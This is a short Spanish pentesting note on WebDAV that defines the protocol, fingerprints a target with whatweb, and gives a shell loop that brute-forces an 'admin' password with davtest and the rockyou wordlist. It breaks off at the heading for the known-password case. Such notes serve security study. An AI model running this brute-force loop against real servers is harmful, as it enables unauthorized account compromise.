 #WebDAV #OWASP #Enumeracion #Explotacion 

#### Definición
>**WebDAV** (**Web Distributed Authoring and Versioning**) es una extensión del protocolo HTTP que permite a los usuarios **acceder** y **manipular** **archivos** en un servidor web a través de una conexión segura.

## Enumeración
Usaremos [[WHATWEB]] para identificar que tipo de tecnologías usa la pagina web es y así poder ver si es un WebDAV:
`whatweb <URL_Victima>`

Podemos usar una herramienta llamada [[DAVTEST]] nos enumera todos los tipos de archivos que se pueden subir a la web y cuales son ejecutables/interpretables, pero para ellos debemos de saber las credenciales
Si sabemos el nombre del usuario:
```shell
cat /usr/share/wordlists/rockyou.txt | while read password; do response=$(davtest -url <URL_Victima> -auth admin:$password 2>&1 | grep -i succeed); if [ $response ]; then echo "[+] La contraseña es $password"; break; fi; done
```

SI sabemos la contraseña: 
